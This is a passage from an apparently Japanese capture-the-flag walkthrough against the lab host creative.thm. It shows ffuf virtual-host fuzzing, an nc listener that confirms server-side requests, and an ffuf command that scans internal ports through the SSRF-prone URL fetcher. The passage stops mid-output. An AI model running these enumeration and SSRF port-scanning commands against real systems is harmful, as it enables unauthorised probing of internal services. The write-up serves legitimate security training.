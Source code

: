 ```shell
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 307ms]
:: Progress: [4989/4989] :: Job [1/1] :: 127 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

beta が出てきたので、hosts に追加。

### beta.creative.thm

URL を入力すると GET リクエストしてそのまま表示するような動作。

kali 上に PHP を置いてリクエストさせてみたところ、PHP が実行されるのではなく、PHP コードがそのまま表示されるような動作になった。

リクエストを見ると、python-requests を使っている。

```shell
$ nc -nlvp 8000
listening on [any] 8000 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.173.205] 44760
GET /pentest.php HTTP/1.1
Host: 10.2.22.182:8000
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

こういう形を想定。

```python
import requests
r = requests.get(url)
```

この形ではコードインジェクションはできないと思うので、ローカルポートを探すことにする。

```shell
$ seq 1 80000 > port_list

$ ffuf -w ./port_list -X POST -d "url=http://localhost:FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://beta.creative.thm -fs 13

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm
 :: Wordlist         : FUZZ: /home/kali/CTF/port_list
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://localhost:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```